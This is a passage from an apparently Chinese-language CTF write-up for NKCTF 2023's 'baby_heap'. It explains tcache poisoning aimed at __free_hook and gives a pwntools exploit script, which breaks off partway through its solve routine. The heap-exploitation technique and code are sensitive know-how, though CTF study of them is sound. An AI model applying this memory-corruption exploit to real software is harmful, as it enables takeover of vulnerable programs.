 往tcache上多填充几个chunk，以免tcache->count不足无法取下fake chunk。基本的原理与fastbin类似，都是将可控制chunk放入bin，之后修改next指针指向希望写入的地址即可。

本题直接写入__free_hook完成攻击。

[baby_heap](/assets/binary/2023-04-13-NKCTF23/baby_heap.zip)

```python
from pwn import *

libc = ELF('./libc-2.32.so')
elf = ELF('./pwn')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

class Solve:

    def __init__(self, handle) -> None:
        self.handle = handle

    def choice(self, index):
        self.handle.recvuntil('Your choice: ')
        self.handle.sendline(str(index))

    # index <= 0xf
    # size <= 256(0x100)
    # size int->uint
    def add(self, index, size):
        self.choice(1)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))
        self.handle.recvuntil('Enter the Size: ')
        self.handle.sendline(str(size))

    def delete(self, index):
        self.choice(2)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))

    def edit(self, index, content):
        self.choice(3)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))
        self.handle.recvuntil('Enter the content: ')
        self.handle.sendline(content)

    def show(self, index):
        self.choice(4)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))

    def exit(self):
        self.choice(5)

    def solve(self):
        self.add(0, 0x18)
        self.add(1, 0x40)
        self.add(2, 0x40)

        # fill tcache
        for i in range(3, 3+7):
            self.add(i, 0x90)
        for i in range(3, 3+7):
```